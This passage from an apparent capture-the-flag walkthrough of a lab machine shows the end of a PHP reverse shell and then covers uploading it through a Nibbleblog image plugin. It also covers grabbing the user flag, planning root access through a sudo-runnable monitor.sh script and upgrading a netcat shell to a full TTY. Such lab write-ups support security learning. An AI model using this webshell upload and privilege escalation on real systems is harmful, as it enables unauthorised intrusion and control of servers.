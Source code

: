 ```php
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?>
```

Uploading this file and navigating to `http://10.129.166.213/nibbleblog/content/private/plugins/my_image/image.php` worked!

![](https://jawad.ca/images/nibbles8.png)

I found the first flag under `/home/nibbler/flag.txt`.

---

Next, we need to escalate privileges to retrieve the root user flag. We start by identifying which commands the current user can execute without a password using `sudo -l`.

![](https://jawad.ca/images/nibbles9.png)

As shown, we can execute `/home/nibbler/personal/stuff/monitor.sh` as sudo. We can modify this script to elevate our privileges.

---

#### Upgrading Our TTY

Upgrading my TTY, I encountered issues using `tmux` and `zsh`, so I switched my terminal to `bash`.

I used Python to upgrade the shell to a full TTY:

```shell-session
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


After running this command, I hit `ctrl+z` and then executed the `stty` command:

```shell-session
$ ^Z

$ stty raw -echo
$ fg

[Enter]
[Enter]
```

Once I hit `fg` and pressed Enter a couple of times, I returned to the `netcat` shell with a fully working TTY.

